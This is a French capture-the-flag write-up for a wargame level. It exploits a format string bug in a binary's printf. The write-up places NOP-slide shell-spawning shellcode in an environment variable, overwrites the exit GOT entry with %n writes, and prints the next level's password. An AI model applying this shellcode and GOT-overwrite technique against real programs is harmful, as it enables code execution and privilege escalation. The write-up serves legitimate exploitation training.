 Pour ce niveau, comme dans le niveau 5 de rainfall il faut utiliser un format string exploit via le printf :

 > 8048507:       e8 34 fe ff ff          call   8048340 <printf@plt>

 Le programme fait un fgets de taille 0x64 :

8048466:       c7 44 24 04 64 00 00    movl   $0x64,0x4(%esp)
 804846d:       00
 804846e:       8d 44 24 28             lea    0x28(%esp),%eax
 8048472:       89 04 24                mov    %eax,(%esp)
 8048475:       e8 d6 fe ff ff          call   8048350 <fgets@plt>

 Ensuite il va itérer sur chaque chat de la string et check si le char est une majusqcule, si oui, le char est changé en minuscule.

 On va tout d'abord ajouter notre scripte précédé d'un nop slide à l'environement :

**************************************************************************************************
export SCRIPT=$(python -c "print '\x90'*80 + '\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1'")
***************************************************************************************************

Grâce au format string exploit on va aller récupérer l'adresse de le fonction exit dans la GOT et la modifier par une des adresse du nop slide dans l'env.

adresse à modifier : 

(gdb) disass 0x8048370

*************************************************
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0  <-------- on va modifier l'adresse à cette adresse.
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
***************************************************

Notre variable SCRIPT ce trouve ici : 

*******************************************************************************
0xffffd8e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd900:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd910:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd920:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd930:     0x6880cd68      0x68fceb68      0x31580b6a      0x2f6852d2
*******************************************************************************

on va donc grâce au %n de printf réécrire sur l'adresse qu'on avait pour exit afin d'y mettre une des adresse du nop slide :

(python -c "print '\xe0\x97\x04\x08' + '\xe1\x97\x04\x08' + '\xe2\x97\x04\x08' + '\xe3\x97\x04\x08' + '%x '*8 + '%55477x' + '%n' + '%75519x' + '%hn'"; cat) | ./level05

> cat /home/users/level06/.pass
    h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq